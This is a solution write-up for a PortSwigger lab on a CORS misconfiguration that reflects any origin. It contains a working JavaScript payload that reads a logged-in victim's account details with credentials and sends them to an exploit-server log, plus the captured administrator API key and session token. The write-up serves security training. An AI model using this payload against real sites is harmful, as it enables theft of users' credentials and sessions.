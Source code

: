 # [Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Credentials`:

- request from exploit-server, the `Access-Control-Allow-Origin` is reflected:

![analysis.png](./../img/lab-1-analysis.png)

## Solutions

craft a response at exploit-server:

- body:

  ```js
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>
  ```

deliver exploit to victim => log:

```http
/log?key={  "username": "administrator",  "email": "",  "apikey": "DXVPpW5NHW51Kyu9ArW0eCgce3HUct9g",  "sessions": [    "KZNTrPrjnSWhV0E9nIdODHExeFaSh1XF"  ]}
```
